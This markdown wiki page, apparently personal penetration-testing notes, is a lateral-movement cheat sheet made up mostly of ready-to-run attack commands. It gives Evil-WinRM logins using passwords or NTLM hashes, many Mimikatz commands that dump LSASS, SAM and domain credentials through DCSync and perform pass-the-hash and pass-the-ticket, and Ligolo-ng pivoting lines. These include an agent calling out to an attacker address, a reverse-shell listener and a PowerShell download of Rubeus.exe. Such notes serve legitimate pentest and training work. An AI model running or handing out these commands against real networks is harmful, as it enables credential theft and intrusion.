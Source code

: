 ```yaml
---
layout: wiki
title: Lateral Movement
cate1: Internals
cate2: Step 3
description: Lateral Movement
keywords: Internals
---
```


# Lateral Movement

## Smbexec
**[Smbexec](https://book.hacktricks.xyz/windows-hardening/lateral-movement/smbexec)**

## WinRM 
**[Evil-WinRM - ultimate WinRM shell for hacking/pentesting](https://github.com/Hackplayers/evil-winrm)**

```
gem install evil-winrm
evil-winrm -i <IP> -u <username> -p <password>
evil-winrm -i <IP> -u <username> -H <ntlm hash>
evil-winrm -i <IP> -u <username> -k

## Run Powershell Commands
whoami
ipconfig
Get-Process

## Upload and Download Files
upload /local/path/to/file /remote/path
download /remote/path/to/file /local/path

## Run Powershell Scripts
upload /local/path/to/script.ps1 /remote/path/script.ps1
powershell -File /remote/path/script.ps1
```

## Mimikatz
**[Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)**

```
#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#Dump old passwords and NTLM hashes of a user
mimikatz lsadump::dcsync /user:<DomainFQDN>\<user> /history

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```

**Additional Resources**
  - [Mimikatz Post Exploitation Basics](https://infosecwriteups.com/post-exploitation-basics-in-active-directory-enviorment-by-hashar-mujahid-d46880974f87)
  - [Mimikatz Guide Reference](https://adsecurity.org/?page_id=1821)

## Network Pivoting via Ligolo-ng
**[Network Pivoting - Ligolo-ng](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)**

```
./agent -connect 10.10.14.5:443 -ignore-cert
sudo ./proxy -selfcert -laddr 0.0.0.0:443 -v
session
start
sudo ip route add 192.168.110.0/24 dev ligolo

listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444 (open port on DMZ machine for reverse shell)

powershell -Command "Invoke-WebRequest -Uri 'http://192.168.110.51:1235/Rubeus.exe' -OutFile 'Rubeus.exe'"
```

**Additional Resources**
  - [Ligolo Guide for pivoting](https://systemweakness.com/pivoting-for-newbies-with-ligolo-ng-82f13040aa39)
  - [Advanced pivoting guide](https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5)
